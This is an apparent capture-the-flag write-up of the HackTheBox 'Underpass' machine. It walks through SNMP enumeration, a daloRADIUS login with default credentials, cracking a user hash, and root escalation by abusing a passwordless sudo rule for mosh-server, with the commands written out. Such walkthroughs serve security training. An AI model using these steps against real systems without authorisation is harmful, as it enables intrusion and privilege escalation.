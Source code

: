 ```yaml
---
title: Underpass
tags:
  - HackTheBox
  - Easy
  - Linux
  - SNMP
  - DaloRadius
  - Brute-Forcing
  - Sudo-Vulnerability
  - Mosh
date: 2025-01-29T00:00:00Z
---
```

![](Pasted%20image%2020250129164341.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.48 underpass.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- underpass.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works
```

So I visited its website:

![](Pasted%20image%2020250129164524.png)

Apache2 Defalt page is found. After a lot of web reconnaissance with some tools, I didn't find anything, so I decided to repeat the Nmap scan but trying UDP instead TCP:

```shell
nmap -sU -T4 -top-ports 100 underpass.htb > sU.txt

[redacted]
PORT    STATE SERVICE
161/udp open  snmp
```

So inspecting  [Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html#ports) i discovered the tool **snmpwalk** to perform ome information gathering on port 161:

```shell
snmpbulkwalk -c public -v2c underpass.htb

[redacted]
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (140447) 0:23:24.47
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
```

I noticed a weird server called "*daloradius server*". No idea of what is it so I'll inspect it

## Weaponization

![](Pasted%20image%2020250129170801.png)

As they say:

> [!Info]
> *daloRADIUS is an advanced RADIUS web platform aimed at managing Hotspots and general-purpose ISP deployments.*

## Exploitation

So I discovered after searching info about it a login panel inside `http://underpass.htb/daloradius/app/operators/login.php`:

![](Pasted%20image%2020250129171456.png)

Now that I know the version (2.2 beta) I searched for "*daloradius default creds*" and got `administrator:radius`, which worked!

![](Pasted%20image%2020250129172546.png)

I noticed the "users" section and inspecting it I found an "easy-to-crack-seemed" hash:

![](Pasted%20image%2020250129172825.png)

> So I used [crackstation](https://crackstation.net/) to crack the hash and got some credentials :D `svcMosh:underwaterfriends`

### User flag

I'll login via SSH with previous creds.

> Got user flag :D

![](Pasted%20image%2020250129173232.png)

## Privilege Escalation

If I run `sudo -l`:

```shell
sudo -l

[redacted]
User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

I executed the binary to check what it did:

```shell
sudo -u root /usr/bin/mosh-server


MOSH CONNECT 60001 oCZttNhfFwWfzzZTxKgkSg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1759]
```

It seems to be using **mosh 1.3.2**.

I did a quick search about what it was and got [mosh's official github page](https://github.com/mobile-shell/mosh)

> [!Info]
> *Mosh is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes.*

>[!Info]
>**How it works**
  *The `mosh` program will SSH to `user@host` to establish the connection. SSH may prompt the user for a password or use public-key authentication to log in.
  From this point, `mosh` runs the `mosh-server` process (as the user) on the server machine. The server process listens on a high UDP port and sends its port number and an AES-128 secret key back to the client over SSH. The SSH connection is then shut down and the terminal session begins over UDP.
  If the client changes IP addresses, the server will begin sending to the client on the new IP address within a few seconds.
  To function, Mosh requires UDP datagrams to be passed between client and server. By default, `mosh` uses a port number between 60000 and 61000, but the user can select a particular port with the -p option. Please note that the -p option has no effect on the port used by SSH.*

After inspecting how it worked, I did the following:

```shell
sudo -u root /usr/bin/mosh-server new

MOSH_KEY=oCZttNhfFwWfzzZTxKgkSg /usr/bin/mosh-client localhost 60001
```

### Root flag

> Now I'm root and can read root flag :D

![](Pasted%20image%2020250129175301.png)

==Machine pwned!==




